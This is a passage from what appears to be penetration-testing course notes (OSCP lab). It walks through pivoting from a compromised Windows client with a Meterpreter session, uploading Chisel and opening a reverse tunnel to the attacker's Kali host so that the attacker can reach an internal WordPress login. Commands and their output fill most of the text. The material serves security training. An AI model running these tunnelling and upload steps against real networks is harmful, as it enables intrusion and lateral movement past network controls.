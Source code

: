 While we could use the SOCKS5 proxy and proxychains to browse to the open port on 172.16.6.241, we'll use [*Chisel*](https://github.com/jpillora/chisel) as it provides a more stable and interactive browser session. From the [releases page](https://github.com/jpillora/chisel/releases/tag/v1.7.7), we download the Windows and Linux amd64 versions and extract the binaries in **/home/kali/beyond/**.

On our Kali machine, we'll use Chisel in server mode to receive incoming connections on port 8080. In addition, we'll add the **\--reverse** option to allow reverse port forwarding.

```
kali@kali:~/beyond$ chmod a+x chisel

kali@kali:~/beyond$ ./chisel server -p 8080 --reverse
2022/10/11 07:20:46 server: Reverse tunnelling enabled
2022/10/11 07:20:46 server: Fingerprint UR6ly2hYyr8iefMfm+gK5mG1R06nTKJF0HV+2bAws6E=
2022/10/11 07:20:46 server: Listening on http://0.0.0.0:8080
```

> Listing 65 - Setting up Chisel on Kali to access the Web Server on INTERNALSRV1 via Browser

Then, we'll transfer the extracted **chisel.exe** binary to CLIENTWK1 by using Meterpreter's *upload* command.

```
msf6 auxiliary(server/socks_proxy) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > upload chisel.exe C:\\Users\\marcus\\chisel.exe
[*] Uploading  : /home/kali/beyond/chisel.exe -> C:\Users\marcus\chisel.exe
[*] Uploaded 7.85 MiB of 7.85 MiB (100.0%): /home/kali/beyond/chisel.exe -> C:\Users\marcus\chisel.exe
[*] Completed  : /home/kali/beyond/chisel.exe -> C:\Users\marcus\chisel.exe
```

> Listing 66 - Uploading Chisel to CLIENTWK1 via our Meterpreter session

Now, we can enter **shell** and utilize Chisel in client mode to connect back to our Kali machine on port 8080. We'll create a reverse port forward with the syntax **R:localport:remotehost:remoteport**. In our case, the remote host and port are 172.16.6.241 and 80. The local port we want to utilize is 80.

```
C:\Users\marcus> chisel.exe client 192.168.119.5:8080 R:80:172.16.6.241:80
2022/10/11 07:22:46 client: Connecting to ws://192.168.119.5:8080
2022/10/11 07:22:46 client: Connected (Latency 11.0449ms)
```

> Listing 67 - Utilizing Chisel to set up a reverse port forwarding to port 80 on INTERNALSRV1

Once Chisel connects, we can browse to port 80 on 172.16.6.241 via port 80 on our Kali machine (127.0.0.1) by using Firefox:

![[OffSec/OSCP/z. images/e99da10208ff2e27514a7413111b865e_MD5.jpg]]

Figure 16: WordPress page on INTERNALSRV1 (172.16.6.241)

Figure 16 shows us a WordPress instance (indicated by the URL and title of the page) on INTERNALSRV1. Let's browse to the dashboard login page for WordPress at **http://127.0.0.1/wordpress/wp-admin** and try to log into it with credentials we've discovered so far.
